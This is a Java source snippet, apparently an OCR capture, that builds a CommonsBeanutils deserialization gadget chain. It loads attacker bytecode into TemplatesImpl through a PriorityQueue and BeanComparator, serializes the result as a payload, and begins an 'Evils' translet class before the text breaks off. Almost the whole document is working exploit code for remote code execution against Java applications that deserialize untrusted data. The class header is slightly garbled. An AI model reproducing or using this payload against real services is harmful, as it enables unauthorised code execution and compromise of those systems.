 ```
import java.util.PriorityQueue;




public class CommonsBeanutilsPropertySource<pubilc> {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        PropertySource propertySource1 = new PropertySource() {

            @Override
            public int getPriority() {
                return 0;
            }

        };
        PropertySource propertySource2 = new PropertySource() {

            @Override
            public int getPriority() {
                return 0;
            }

        };

        final BeanComparator comparator = new BeanComparator(null, new PropertySource.Comparator());
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later

        queue.add(propertySource1);
        queue.add(propertySource2);

        setFieldValue(comparator, "property", "outputProperties");
//        setFieldValue(comparator, "property", "output");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static class Evils extends AbstractTranslet {
        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

        @Override
```